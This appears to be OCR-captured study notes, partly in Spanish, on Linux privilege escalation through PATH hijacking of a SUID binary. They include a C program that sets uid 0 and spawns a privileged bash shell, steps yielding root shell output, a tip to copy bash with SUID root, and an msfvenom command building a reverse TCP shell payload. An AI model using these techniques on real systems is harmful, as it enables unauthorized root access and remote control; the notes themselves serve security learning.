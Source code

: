 Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to. 

symlink

Contiene informacion a otro file o symbolic (soft link)
Puede referenciar a ficheros que no existen

Ln -s

ls -l

Deteccion

Decompilar/disassmble

- Hopper
- Binary Ninja
- idapro

Programas vulnerables:

Dpkg -l

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace (llamadas al sistema) to see how the program is executing. Another program called ltrace (llamadas a librerías) may also be of use.

```
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

1. ```
   gcc -o service service.c
   ```

1. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

$ PATH=.:$PATH /usr/local/bin/suid-env root@debian:~# id
 uid=0(root) gid=0(root) groups=0(root) ...

### 

## Técnicas

### Spawn a shell

#### Sudo

- Copiar el fichero /bin/bash con el SUID root set y ejecutar con -p
- Crear un ejecutable.
  - int main() {
    setuid(0);
    system("/bin/bash -p");
    }
  - gcc -o filename.c

#### Metasploit

- msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
- netcat + multihandlers (metasploit)

   ```